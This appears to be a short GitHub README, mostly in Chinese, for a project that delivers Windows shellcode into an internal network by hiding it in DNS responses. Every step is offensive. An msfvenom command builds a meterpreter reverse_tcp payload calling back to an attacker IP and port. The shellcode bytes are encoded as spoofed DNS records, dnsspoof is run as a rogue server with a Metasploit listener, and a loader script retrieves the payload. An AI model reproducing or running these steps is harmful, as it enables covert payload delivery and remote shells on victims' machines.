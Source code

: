 # DNS_shellcode
DNS内网分离传输脚本
step.1
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.32.133 lport=5555 -f c > /root/safe/payload.txt

step.2
将shellcode制作成  IP+地址 的格式
Ipaddress "{payload}.domain.com"
1.1.1.0 "0xfc0x480x830xe40xf00xe8.1.com"
1.1.1.1 "0xbc0xc80x130xff0x100x08.1.com"
python格式化脚本可参见项目script_format.py

step.3
DNS_Server
dnsspoof -i eth0 -f dns.txt
listening msf

setp.4
Execute this python_scripts and input Your Bad_DNS_Server_IP
